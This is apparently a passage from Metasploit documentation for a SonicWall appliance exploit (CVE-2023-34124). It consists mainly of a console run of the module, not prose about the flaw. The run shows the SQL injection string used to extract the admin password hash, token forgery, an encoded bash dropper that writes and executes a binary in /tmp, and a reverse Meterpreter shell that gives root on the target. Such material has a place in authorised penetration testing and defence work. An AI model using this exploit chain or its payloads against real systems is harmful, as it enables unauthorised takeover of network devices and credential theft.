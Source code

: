 If this is set to `true`, we trust that the `TARGET` is set appropriately and
use that target OS for encoding the command.

## Scenarios

### Linux dropper

This is the default target, and will work against the Linux appliance with
its stripped-down environment. It writes a binary to `/tmp` (by default),
executes it, and deletes it. No special configuration should be necessary,
and you get `root` access:

```
msf6 > use exploit/multi/http/sonicwall_shell_injection_cve_2023_34124
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set RHOST 10.0.0.89
RHOST => 10.0.0.89
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set LHOST 10.0.0.227
LHOST => 10.0.0.227
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > exploit

[*] Started reverse TCP handler on 10.0.0.227:4444 
[*] Attempting to use SQL injection to grab the password hash for the superadmin user...
[*] Generated SQL injection: ' union select (select ID from SGMSDB.DOMAINS limit 1), '', '', '', '', '', (select concat(id, ':', password) from sgmsdb.users where active = '1' order by issuperadmin desc limit 1 offset 0),'', '', '
[*] Generated a token using built-in secret key: /J50ZtvLJddOf5FI4nYdMJcX8IQ=
[*] Sending SQL injection request to get the username/hash...
[+] Found an account: admin:5f4dcc3b5aa765d61d8327deb882cf99
[*] Grabbing server hashing token...
[*] Got the server-side token: 10638945083391156307247271263824
[*] Generated client token: de3787d4ac2f5db099666e6467b11c38
[*] Attempting to authenticate with the client token + password hash...
[+] Successfully logged in as admin (Linux detected!)
[*] Encoding (Linux) payload
[*] Encoded shell command: bash -c PLUS\=\$\(echo\ -e\ begin-base64\ 755\ a\\\\nKwee\\\\n\=\=\=\=\ \|\ uudecode\ -o-\)\;echo\ -e\ begin-base64\ 755\ /tmp/.ctdtzpxv\\\\nf0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA\$\{PLUS\}gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAAMf9qCViZthBIidZNMclqIkFaagdaDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXAoAAONRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp\$\{PLUS\}Wg8FSIXAeO3/5g\=\=\\\\n\=\=\=\=\ \|\ uudecode\ \;\ coproc\ /tmp/.ctdtzpxv\ \;\ rm\ /tmp/.ctdtzpxv
[*] Attempting to execute the shell injection payload
[+] Payload sent!
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 10.0.0.89
[*] Meterpreter session 1 opened (10.0.0.227:4444 -> 10.0.0.89:43566) at 2023-08-18 13:38:00 -0700

meterpreter > getuid
Server username: root
```
